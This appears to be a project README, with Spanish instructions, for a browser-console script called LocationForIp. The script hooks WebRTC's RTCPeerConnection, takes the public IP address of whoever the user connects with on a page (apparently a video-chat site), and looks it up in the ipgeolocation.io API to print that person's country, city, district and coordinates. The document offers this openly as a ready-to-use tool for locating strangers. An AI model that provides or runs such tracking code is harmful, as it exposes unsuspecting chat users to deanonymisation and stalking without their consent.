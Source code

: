 # LocationForIp
Location program to find the person with the ip

1 Abrir la pagina donde quieres ubicar a las personas por IP <br />
2 apreta F12 o abre el inspeccionar de google chrome  <br />
3 abre la segunda pestaña que dice console <br />
4 copia y pega el siguiente codigo en la terminal y pulsa enter <br />
5 cada vez que detecte un ip encontra a la persona <br />

```

let apiKey = "YOUR API KEY";
 
window.oRTCPeerConnection =
  window.oRTCPeerConnection || window.RTCPeerConnection;
 
window.RTCPeerConnection = function (...args) {
  const pc = new window.oRTCPeerConnection(...args);
 
  pc.oaddIceCandidate = pc.addIceCandidate;
 
  pc.addIceCandidate = function (iceCandidate, ...rest) {
    const fields = iceCandidate.candidate.split(" ");
 
    console.log(iceCandidate.candidate);
    const ip = fields[4];
    if (fields[7] === "srflx") {
      getLocation(ip);
    }
    return pc.oaddIceCandidate(iceCandidate, ...rest);
  };
  return pc;
};
 
let getLocation = async (ip) => {
  let url = `https://api.ipgeolocation.io/ipgeo?apiKey=${apiKey}&ip=${ip}`;
 
  await fetch(url).then((response) =>
    response.json().then((json) => {
      const output = `
          ---------------------
          Country: ${json.country_name}
          State: ${json.state_prov}
          City: ${json.city}
          District: ${json.district}
          Lat / Long: (${json.latitude}, ${json.longitude})
          ---------------------
          `;
      console.log(output);
    })
  );
};
```
